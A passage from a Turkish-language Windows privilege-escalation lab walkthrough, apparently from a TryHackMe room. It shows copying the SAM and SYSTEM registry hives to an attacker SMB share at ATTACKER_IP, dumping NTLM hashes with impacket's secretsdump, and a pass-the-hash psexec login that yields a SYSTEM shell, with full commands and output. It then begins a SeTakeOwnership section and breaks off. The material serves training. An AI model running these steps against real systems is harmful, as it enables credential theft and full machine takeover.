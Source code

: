 Bu, kayıt defteri hive'larının içeriğini içeren birkaç dosya oluşturacaktır. Artık bu dosyaları SMB veya mevcut herhangi bir yöntemi kullanarak saldırgan makinemize kopyalayabiliriz. SMB için, Kali'mizin geçerli dizininde bir ağ paylaşımıyla basit bir SMB sunucusu başlatmak için impacket'in smbserver.py dosyasını kullanabiliriz:

    user@attackerpc$ mkdir share
    user@attackerpc$ python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

Bu, mevcut Windows oturumumuzun kullanıcı adını ve şifresini gerektiren, share dizinine işaret eden public adında bir paylaşım yaratacaktır. Bundan sonra her iki dosyayı da Kali'mize aktarmak için Windows makinemizdeki copy komutunu kullanabiliriz:

    C:\> copy C:\Users\THMBeup\sam.hive \\ATTACKER_IP\public\
    C:\> copy C:\Users\THMBeup\system.hive \\ATTACKER_IP\public\

Ve kullanıcıların şifre hash'lerini almak için impacket'i kullanın:

    user@attackerpc$ python /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
    Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

    [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Son olarak Administrator'un hash'ini kullanarak Pass-the-Hash saldırısı gerçekleştirebilir ve hedef makineye SYSTEM ayrıcalıklarıyla erişim sağlayabiliriz:

    user@attackerpc$ python /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 Administrator@MACHINE_IP
    Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on 10.10.175.90.....
    [*] Found writable share ADMIN$
    [*] Uploading file nfhtabqO.exe
    [*] Opening SVCManager on 10.10.175.90.....
    [*] Creating service RoLE on 10.10.175.90.....
    [*] Starting service RoLE.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

### SeTakeOwnership

SeTakeOwnership yetkisi, bir kullanıcının, dosyalar ve kayıt defteri anahtarları da dahil olmak üzere sistemdeki herhangi bir nesnenin sahipliğini almasına olanak tanır ve bir saldırganın yetkileri yükseltmesi için birçok olasılığın önünü açar; örneğin, SYSTEM olarak çalışan bir servisi arayabiliriz ve executable dosyasının sahipliğini alıp bunu değiştirebiliriz. Ancak bu bölüm için farklı bir yol izleyeceğiz.

    C:\> whoami /priv
